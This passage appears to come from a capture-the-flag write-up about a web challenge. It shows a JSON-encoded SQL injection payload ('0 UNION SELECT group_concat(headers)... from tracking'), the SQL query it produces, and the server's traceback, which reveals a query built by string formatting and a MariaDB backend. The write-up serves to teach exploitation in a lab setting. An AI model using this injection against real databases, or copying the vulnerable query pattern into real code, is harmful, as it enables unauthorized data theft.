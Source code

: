 Unfortunately, every time we want to send a new message we have to run the whole process from the beginning. Let's skip ahead and send this payload (like *Werner* did):

```json
{"id":"0 UNION SELECT group_concat(headers), '' from tracking", "key": "XjPkmljch5E2sMiNhsNiqg~~"}
```
which, when parsed and added to the SQL command produces:

```SQL
SELECT title, body FROM posts WHERE id = 0 UNION SELECT group_concat(headers), '' from tracking
```

The response:

```
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'from tracking' at line 1")
```

It took 3 hours to get that result... Thanks *Werner*... At least now we know that the database is using MariaDB.

Aaaaaanyway... I consider this flag solved, ok. Don't @ me!

### Notes:
* The server seems to use a persistent IV, so the solutions are always the same if the payload is consistent, so you can continue where you left off after each server reboot.
